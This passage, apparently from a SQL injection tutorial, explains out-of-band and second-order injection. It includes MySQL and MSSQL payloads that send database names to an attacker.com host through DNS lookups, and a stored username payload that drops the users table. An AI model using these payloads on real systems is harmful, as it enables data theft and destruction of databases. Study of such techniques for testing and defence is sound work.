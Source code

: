 **Definition:**

Uses a **different channel** (DNS, HTTP, FTP) to send data to the attacker’s server.

**How it works:**

- MySQL DNS example:

```sql
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT database()),'.attacker.com\\abc'));
```

- MSSQL example:

```sql
'; exec master..xp_dirtree '\\' + (SELECT name FROM master..sysdatabases) + '.attacker.com\share'--
```

- Attacker monitors their DNS/HTTP server for requests containing the data.

**Advantages:**

- Works in blind scenarios.
- Can bypass output restrictions.

**Limitations:**

- Requires outbound connectivity from the DB server.
- More complex setup.

---

# **6️⃣ Second-Order Injection**

**Definition:**

Malicious input is stored in the database and executed later when another part of the application uses it in a query.

**How it works:**

1. Attacker injects payload into a field that is stored (e.g., username, comment).
2. Later, an admin panel or another process retrieves that value and uses it unsafely in a query.
3. The stored payload executes at that later time.

**Example:**

- Step 1: Attacker registers with username:

```sql
test'); DROP TABLE users;--
```

- Step 2: Admin search query:

```sql
SELECT * FROM users WHERE username = 'test'); DROP TABLE users;--'
```

**Advantages:**

- Can bypass initial input validation.
- Hits unexpected parts of the app.
